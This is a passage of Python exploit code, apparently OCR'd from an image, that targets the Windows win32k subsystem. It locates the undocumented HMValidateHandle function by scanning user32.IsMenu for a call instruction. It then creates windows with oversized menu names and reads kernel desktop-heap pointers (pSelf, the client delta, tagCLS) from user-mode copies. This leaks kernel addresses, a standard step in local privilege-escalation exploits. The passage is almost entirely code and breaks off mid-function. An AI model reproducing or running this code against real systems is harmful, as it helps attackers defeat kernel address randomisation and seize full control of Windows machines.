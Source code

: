```
    while(offset &lt; 0x100):
        byte = cast(pIsMenu + offset, POINTER(c_byte))
        # if byte == 0xE8
        if byte.contents.value == -24:
            pHMValidateHandle_offset = pIsMenu + offset + 1
            break;
        offset = offset + 1
    debug_print("t[+] Pointer to HMValidateHandle offset: 0x%X" % pHMValidateHandle_offset)

    HMValidateHandle_offset = (cast(pHMValidateHandle_offset, POINTER(c_long))).contents.value
    debug_print("t[+] HMValidateHandle offset: 0x%X" % HMValidateHandle_offset)

    # Add 0xb because relative offset of call starts from next instruction after call, which is 0xb bytes from start of user32.IsMenu
    pHMValidateHandle = pIsMenu + HMValidateHandle_offset + 0xb
    debug_print("t[+] HMValidateHandle pointer: 0x%X" % pHMValidateHandle)

def PyWndProcedure(hWnd, Msg, wParam, lParam):
    """ Callback Function for CreateWindow() """
    # if Msg == WM_DESTROY
    if Msg == 2:
        user32.PostQuitMessage(0)
    else:
        return user32.DefWindowProcW(hWnd, Msg, wParam, lParam)
    return 0

def allocate_free_window():
    """ Allocate and Free a single Window """
    global classNumber, pHMValidateHandle

    # Create prototype for HMValidateHandle()
    HMValidateHandleProto = WINFUNCTYPE(c_ulonglong, HWND, c_int)
    HMValidateHandle = HMValidateHandleProto(pHMValidateHandle)

    WndProc = WNDPROCTYPE(PyWndProcedure)
    hInst = kernel32.GetModuleHandleA(0)

    # instantiate WNDCLASSEX 
    wndClass = WNDCLASSEX()
    wndClass.cbSize = sizeof(WNDCLASSEX)
    wndClass.lpfnWndProc = WndProc
    wndClass.cbWndExtra = 0
    wndClass.hInstance = hInst
    wndClass.lpszMenuName = 'A' * 0x8f0 # Thought 0x7f0 was 0x1000 but did not work, and this does
    wndClass.lpszClassName = "Class_" + str(classNumber)

    # Register Class and Create Window
    hCls = user32.RegisterClassExW(byref(wndClass))
    hWnd = user32.CreateWindowExA(0,"Class_" + str(classNumber),'Franco',0xcf0000,0,0,300,300,0,0,hInst,0)

    # Run HMValidateHandle on Window handle to get a copy of it in userland
    pWnd = HMValidateHandle(hWnd,1)

    # Read pSelf from copied Window
    kernelpSelf = (cast(pWnd+0x20, POINTER(c_ulonglong))).contents.value

    # Calculate ulClientDelta (tagWND.pSelf - HMValidateHandle())
    # pSelf = ptr to object in Kernel Desktop Heap; pWnd = ptr to object in User Desktop Heap
    ulClientDelta = kernelpSelf - pWnd

    # Read tagCLS from copied Window
    kernelTagCLS = (cast(pWnd+0xa8, POINTER(c_ulonglong))).contents.value
```